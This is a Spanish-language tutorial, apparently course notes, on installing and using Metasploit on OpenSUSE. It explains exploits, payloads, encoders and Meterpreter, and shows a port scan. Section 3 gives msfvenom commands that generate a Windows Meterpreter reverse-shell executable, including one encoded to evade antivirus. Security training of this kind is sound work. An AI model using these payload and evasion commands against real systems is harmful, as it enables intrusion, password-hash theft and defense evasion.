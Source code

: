
`EN CONSTRUCCIÓN !!!`

# Metasploit

Vamos a usar MV con SO OpenSUSE.

# 1. Instalación

## 1.1 La base de datos

* Instalar `postgresql` y `postgresql-server`
* `systemctml start postgresql`

> Para tener la base de datos necesitamos dos herramientas:
> * postgresql como gestor de bases de datos
> * “msfdb” que es la base de datos propia de metasploit
>
> Hay que ejecutar los servicios de ambas bases de datos antes de poder ejecutar Metasploit Framework. Así se podrán guardar los datos que generamos para ejecutar la auditoria en otro momento.

## 1.2 La aplicación

* Descargar paquete rpm de https://rpm.metasploit.com.
* `sudo rpm -i metasploit-framework-XXX.x86_64.rpm`
* `msfdb init`, crear el schema de la BBDD para MS.
    * `msfdb`, para ver todas las opciones disponibles.
* `msfconsole`, iniciar MS.
* `db_status`, para comprobar que BBDD está OK.

```
david@camaleon> msfconsole

 ** Welcome to Metasploit Framework Initial Setup **
    Please answer a few questions to get started.

Would you like to use and setup a new database (recommended)?
Please answer yes or no.
Would you like to use and setup a new database (recommended)? yes
Creating database at /home/david/.msf4/db
Starting database at /home/david/.msf4/db...success
Creating database users
Creating initial database schema

 ** Metasploit Framework Initial Setup Complete **

       =[ metasploit v4.17.34-dev-                        ]
+ -- --=[ 1845 exploits - 1045 auxiliary - 320 post       ]
+ -- --=[ 541 payloads - 44 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > db_status
[*] postgresql connected to msf
msf > exit
```

> Resumen: Para iniciar MSF
> * `sudo systemctl start postgresql`
> * `msfdb init`
> * `msfconsole`

---

# 2. TEORÍA: Definiciones

* `msf> help`, ver los comandos de Metasploit

## 2.1 Los exploits

Un exploit es un fallo el cual se puede aprovechar para diferentes fines: como el control del sistema, robo de información, etc.

* `show exploits`, nos muestra todos los exploits.

> La base de datos de exploits se actualiza contínuamente con las nuevas vulnerabilidades que se van detectando.

## 2.2 Payloads

Los payloads son "bloques de código" que se cargan y ejecutan gracias a las vulnerabilidades. Con ellas podemos conseguir:
* la obtención de una Shell y tomar el control del sistema afectado o
* provocar un desbordamiento o saturación del sistema.

* `show payloads`, nos muestra todos los payloads.

Hay diferentes tipos de Payloads, según el sistema operativo o los servicios instalados:
* **Meterpreter** o Meta-Interpreter
    * Payload avanzado y multifacético que opera mediante inyección dll.
    * Reside completamente en la memoria del host remoto y no deja rastros en el disco duro, por lo que es muy difícil
    de detectar con técnicas forenses convencionales.
* **PassiveX**
    * Payload que ayudar a eludir los firewalls de salida restrictivos. Lo hace mediante el uso de un control ActiveX para crear una instancia oculta de Internet Explorer. Usando el nuevo control ActiveX, se comunica con el atacante a través de
    solicitudes y respuestas HTTP.
* **IPv6**
    * Diseñados para funcionar en redes que use el protocolo IPv6.

## 2.3 Encoders

Encargado de cifrar exploits, payload, etc.

* `search encoders`

---

# 3. TEORÍA: Generando Payloads

Con la herramienta `msfvenom` podemos generar nuestros propios Payloads para un objetivo específico. Además también podemos
* Exportar la salida a varios formatos ejecutables
* Cifrarlo con cualquiera de los "encoder".
* Y el fichero generado es portable e  independiente de Metasploit.


## 3.1 Ejemplo: shell inversa

```
msf > msfvenom
[*] exec: msfvenom

Usage: /opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>
Example: /opt/metasploit-framework/bin/../embedded/framework/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
...

msf > msfvenom -p windows/meterpreter/reverse_tcp
               LHOST=127.0.0.1
               LPORT=4444
               -f exe
               > ejemplo1.exe
```

| Parámetro | Descripción | Ejemplo |
| --------- | ----------- | ------- |
| -p        | Payload     | Para sistemas Windows |
| LHOST     | Nuestra IP local | 127.0.0.1 |
| LPORT     | Nuestro puerto local | 4444 |
| -f        | Formato de salida | Ejecutable shell.exe 32bits |
| -e        | Encoder | N/A |
| >, -o     | Fichero de salida | ejemplo1.exe |

Cuando se ejecute este Payload tendremos una shell de Meterpreter reversa. Es decir, él se conectaría a nosotros y esta iría por el protocolo TCP.

## 3.2 Ejemplo: esconderse del antivirus

```
msfvenom -p windows/meterpreter/reverse_tcp
         LHOST=127.0.0.1
         LPORT=4444
         -f exe
         -e x86/shikata_ga_nai
         > ejemplo2.exe
```

* Este ejemplo es similar al anterior pero nuestro Payload esta cifrado por el encoder "shikata_ga_nai" para protegerse, por ejemplo, de los antivirus.

---

# 4. TEORÍA: Meterpreter

> Se necesita tener un equipo infectado para poder ver esta Shell

Meterpreter es un Payload propio de Metasploit Framework que se ejecuta después del proceso de explotación de una vulnerabilidad en un sistema operativo.
* Es el diminutivo para meta-interprete.
* Se ejecuta en memoria es decir a bajo nivel evitando así tener problemas con algún tipo de protección como los Antivirus.
* Es una shell con gran cantidad de opciones.
* Una vez obtenida esta conexión mediante Meterpreter podremos ejecutar diferentes acciones en los sistemas comprometidos algunas acciones son:

| Acción  | Descripción |
| ------- | ----------- |
| execute | posibilidad de ejecutar archivos |
| sysinfo | obtenemos información del sistema |
| screenshot | captura de escritorio remoto |
| hashdump | obtención de contraseñas en formato Hash |

---

# 10. Recopilación de información

Podemos usar los escáneres que nos ofrece MSF o nmap.
* `msfconsole`
* `search portscan`, nos muestra los scanners que vienen con MSF.
* Ejemplo:
    * `use auxiliary/scanner/portscan/tcp`
    * `show options`
    * `set RHOSTS 192.168.1.1/24` (ó 192.168.1.2-255)
    * `run`
